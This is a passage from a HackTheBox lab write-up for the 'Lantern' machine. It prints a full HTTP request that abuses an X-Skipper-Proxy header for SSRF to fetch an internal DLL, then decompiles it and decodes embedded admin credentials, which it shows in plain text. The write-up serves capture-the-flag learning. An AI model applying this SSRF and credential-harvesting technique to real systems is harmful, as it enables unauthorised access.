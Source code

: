 # Lantern.htb

HackTheBox | Medium | Week 3 | Season 6 

## Recon

### Scanning and Enumeration

#### Rustscan 

```bash
rustscan -a 10.129.94.69 
```
![alt text](image.png)

Rustscan found three open ports SSH, HTTP and 3000.

http://lantern.htb seems like an IT company where we can upload a resume in http://lantern.htb/vacancies

- http://lantern.htb:3000 has some king of lanternLogin page.
![alt text](image-1.png)

- Tried injecting RCE embedded in PDF to get a shell but failed.
- seems like I need to focus on port 3000.

Found these endpoints while browsing console log of http://lantern.htb:3000

```js
<script src="_framework/blazor.server.js"></script>
```

```txt
Information: WebSocket connected to ws://lantern.htb:3000/_blazor?id=zuxDM5hIB0lArsgccqNQkw.
```
#### Burp Extension
- After Googling about Blazor exploits i found this Burpsuite Extension
```html
https://www.aon.com/cyber-solutions/aon_cyber_labs/new_burp_suite_extension_blazortrafficprocessor/
```

Took a hint from official HackTheBox discussion thread
- SSRF on port 80
- on GET /_framework/blazor.boot.json are all blazor dlls,
via /_framework/InternaLantern.dll you can download them

```
https://www.exploit-db.com/raw/51111
```
- putting the hint on burp and intercept the response
```
GET /_framework/InternaLantern.dll HTTP/1.1
Host: lantern.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
X-Skipper-Proxy: http://127.0.0.1:5000
Referer: http://lantern.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: keep-alive
```

The ssrf works, download the dll file by requesting response in browser

#### Decompiling DLL File

After Downloading the DLL file in your machine browse it using Jetbrains DotPeek

![image](https://github.com/user-attachments/assets/f60f42b1-d082-425b-a254-e82e586258d1)

Here in "InternaLanding.Pages/Internal" you will find base64 encoded employee details, convert it into text using [CyberChef](https://gchq.github.io/CyberChef)  

```base64
"U3lzdGVtIGFkbWluaXN0cmF0b3IsIEZpcnN0IGRheTogMjEvMS8yMDI0LCBJbml0aWFsIGNyZWRlbnRpYWxzIGFkbWluOkFKYkZBX1FAOTI1cDlhcCMyMi4gQXNrIHRvIGNoYW5nZSBhZnRlciBmaXJzdCBsb2dpbiE="
```

After decoding

```txt
System administrator, First day: 21/1/2024, Initial credentials admin:AJbFA_Q@925p9ap#22. Ask to change after first login!
```
- Got the credentials
```
admin:AJbFA_Q@925p9ap#22.
```

